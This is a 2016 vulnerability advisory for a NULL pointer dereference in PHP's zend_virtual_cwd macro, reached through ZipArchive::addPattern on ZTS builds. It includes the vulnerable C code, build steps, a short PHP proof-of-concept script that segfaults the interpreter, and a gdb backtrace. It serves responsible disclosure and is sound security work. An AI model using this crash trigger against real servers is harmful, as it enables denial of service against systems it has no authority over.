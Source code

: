 ```yaml
---
title: "PHP NULL pointer dereference in zend_virtual_cwd (v. master-Git-2016-07-23)"
date: 2016-07-23 00:00:00
preview: ""
---
```


* _Author_: Martino Sani
* _Software_: PHP
* _Version_: master-Git-2016-07-23
* _Release date_: 2016-07-23
* _CVE_: -
* _Reference_: https://bugs.php.net/bug.php?id=72660

One of the `IS_ABSOLUTE_PATH` macro in `zend_virtual_cwd.h` file does not verify that the path is not null. This could lead to a null pointer dereference issue.
I triggered the issue through `ZipArchive::addPattern` function and ZTS (Zend Thread Safety) enabled, but maybe it could be triggered via different vectors.

[ZipArchive.AddPatter](http://php.net/manual/en/ziparchive.addpattern.php) reports that the default value of $path argument is `.` but in my tests it was null.

`zend_virtual_cwd.h (line 112)`:

```c
#ifndef IS_ABSOLUTE_PATH
#define IS_ABSOLUTE_PATH(path, len) \
        (IS_SLASH(path[0]))
#endif
```

`php_zip.c (line 609)`:

```c
#ifdef ZTS
if (!IS_ABSOLUTE_PATH(path, path_len)) {
   result = VCWD_GETCWD(cwd, MAXPATHLEN);
```

# PHP build

```
./buildconf --force
./configure --enable-zip --enable-maintainer-zts
make && make install
```

# Test script

```php
<?php
$zip = new ZipArchive();
$zip->open("foo.zip", ZIPARCHIVE::CREATE);
$zip->addPattern("/\./");
$zip->close();
?>
```

# Expected result

PHP interpreter should not crash.

# Actual result

```
Program received signal SIGSEGV, Segmentation fault.

0x0000000001f7e049 in php_zip_pcre (regexp=<optimized out>, path=0x0, path_len=<optimized out>, return_value=<optimized out>) at ext/zip/php_zip.c:610
warning: Source file is more recent than executable.
610             if (!IS_ABSOLUTE_PATH(path, path_len)) {

(gdb) bt

#0  0x0000000001f7e049 in php_zip_pcre (regexp=<optimized out>, path=0x0, path_len=<optimized out>, return_value=<optimized out>) at ext/zip/php_zip.c:610
#1  0x0000000001f9cb8b in php_zip_add_from_pattern (execute_data=<optimized out>, return_value=<optimized out>, type=<optimized out>) at ext/zip/php_zip.c:1669
#2  0x000000000276ddd4 in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER (execute_data=<optimized out>) at Zend/zend_vm_execute.h:970
#3  0x0000000002673052 in execute_ex (ex=<optimized out>) at Zend/zend_vm_execute.h:432
#4  0x0000000002673c2f in zend_execute (op_array=<optimized out>, return_value=<optimized out>) at Zend/zend_vm_execute.h:474
#5  0x000000000242b711 in zend_execute_scripts (type=<optimized out>, retval=<optimized out>, file_count=<optimized out>) at Zend/zend.c:1447
#6  0x000000000202ccce in php_execute_script (primary_file=0x7fffffffcd20) at main/main.c:2533
#7  0x0000000002a97fe3 in do_cli (argc=<optimized out>, argv=<optimized out>) at sapi/cli/php_cli.c:990
#8  0x0000000002a9385c in main (argc=3, argv=0x60300000ee30) at sapi/cli/php_cli.c:1378

(gdb) info args

regexp = <optimized out>
path = 0x0
```

# Notes

* 2016-07-23: Vendor notification.
* 2016-07-24: Vendor fixes the issue.
	
The author is not responsible for the misuse of the information provided in this advisory.